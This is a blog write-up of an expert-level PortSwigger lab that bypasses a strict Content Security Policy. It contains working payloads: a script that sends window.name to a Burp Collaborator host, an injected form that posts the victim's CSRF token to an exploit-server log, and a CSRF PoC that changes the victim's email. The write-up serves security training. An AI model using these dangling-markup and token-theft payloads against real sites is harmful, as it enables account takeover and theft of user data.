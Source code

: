 ```yaml
---
title: Reflected XSS protected by very strict CSP, with dangling markup attack
date: 2023-11-25 00:34:00 +0800
categories: [Web, XSS]
tags: [Web, Portswigger]
---
```

Today is nearly two years since the first Portswigger Web Security was solved, I solved the last one. In this blog post, I'll share how I solve it.

## Description of the Lab

- Lab Level: Expert

This lab uses a strict [CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy) that blocks outgoing requests to external websites.

To solve the lab, first, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that bypasses the CSP and exfiltrates a simulated victim user's [CSRF](https://portswigger.net/web-security/csrf) token using Burp Collaborator. You must change the simulated user's email address to `hacker@evil-user.net`.

It would be best if you labeled your vector with the word "Click" in order to induce the simulated user to click it. For example:

`<a href="">Click me</a>`

You can log in to your own account using the following credentials: `wiener:peter`

The lab has CSP `Content-Security-Policy: default-src 'self';object-src 'none'; style-src 'self'; script-src 'self'; img-src 'self'; base-uri 'none';` which make it harder to be exploited because it prevents all the access to our domains although you can inject HTML tags like `img` or `table`  

The vulnerable parameter is `email` in endpoint `/my-account/change-email` and the XSS payload is being reflected in the `/my-account`

## First Solution 

Portswigger's official solution is to use a payload to exploit dangling markup attack by sending `base` tag with attribute `target='` ending in the single quote which will make the rest of the page being sent to the exploit server or Burp collaborator client abusing the same `email` parameter with link `a` tag as following:

```javascript
<script>
if(window.name) {
		new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
		} else {
     			location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email="><a href="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit">Click me</a><base target='';
}
</script>
```

![](/assets/img/uploads/ln1.png]]

If it sends successfully the name of the DOM `window` name will be changed to obtain the CSRF token then send it to the victim to change it's email address.  

![](/assets/img/uploads/ln2.png]]

Unfortunately, this exploit doesn't work anymore on Google Chrome, By only working in Firefox we can't solve the lab because the victim is only using Chrome client.

## Contacting Portswigger Team 

I was wondering why this behavior is like this I read on a thread on [their website](https://forum.portswigger.net/thread/lab-reflected-xss-protected-by-csp-with-dangling-markup-attack-288ada8e) of a user complaining of such problem but in 2022 of an update on Google Chrome make the lab unsolvable. So, I asked them about it and indeed it was this and they replied that there is a competition to see if any other users can also figure this out on [X](https://twitter.com/portswiggerres/status/1726605124443750893?s=46) I notice that no one reply on it in the last 4 days then I take it a personal challenge to solve it.

## The Problem 

The real problem I'm facing is to make the application callback to the exploits server. I tried many 

## The Solution
 
The exploit scenario in my mind: 
- Determine how to make the application call the exploit server.
- Craft exploits to exfiltrate the CSRF token on me then the victim.
- Craft a POC to change the email of the email address of the victim after getting its CSRF token. 

After trying many things I came thought a writeup called [Postcards from the post-XSS world (2011)](https://lcamtuf.coredump.cx/postxss/) indeed it was old but I really was determined to solve it. In a section the witter talks about how you can inject a `form` tag so the parser will ignore the first one and use the one that I craft to get the CSRF token and start with: 

```javascript 
"></form><form%20class="login-form"%20name="evil-form"%20action="https://exploit-0aad00e50419a26982bdf14301f9006c.exploit-server.net/log"%20method="POST">
```

After some tries and playing with HTML, I know all the factors and how it is supposed to work and it finally did!

![](/assets/img/uploads/20231125122402.png]]

```javascript
%22%3E%3C/form%3E%3Cform%20class=%22login-form%22%20name=%22evil-form%22%20action=%22https://exploit-0aad00e50419a26982bdf14301f9006c.exploit-server.net/log%22%20method=%22POST%22%3E%3Cbutton%20class=%22button%22%20type=%22submit%22%3E%20Click%20me%20%3C/button%3E
```

![](/assets/img/uploads/20231125122458.png]]

Put it in the exploit server:

```
<script>
location='https://0a3a006c041ba288822ff20900fa00c8.web-security-academy.net/my-account?email=%22%3E%3C/form%3E%3Cform%20class=%22login-form%22%20name=%22evil-form%22%20action=%22https://exploit-0aad00e50419a26982bdf14301f9006c.exploit-server.net/log%22%20method=%22GET%22%3E%3Cbutton%20class=%22button%22%20type=%22submit%22%3E%20Click%20me%20%3C/button%3E';
</script>
```

I delivered the exploit to the victim and got the CSRF token:

![](/assets/img/uploads/20231125113705.png]]

Then go to the `/my-account/change-email` and make a POC using BurpSuite:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a3a006c041ba288822ff20900fa00c8.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;evil&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="Qqk80OwNNtB2cMUyIanl6OfjlXbydxgf" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

Finally, the lab is solved!

![](/assets/img/uploads/solved.png]]

And officially I solved all the Portswigger labs and ranked 59th on their Hall of fame

![](/assets/img/uploads/20231125124325.png]]
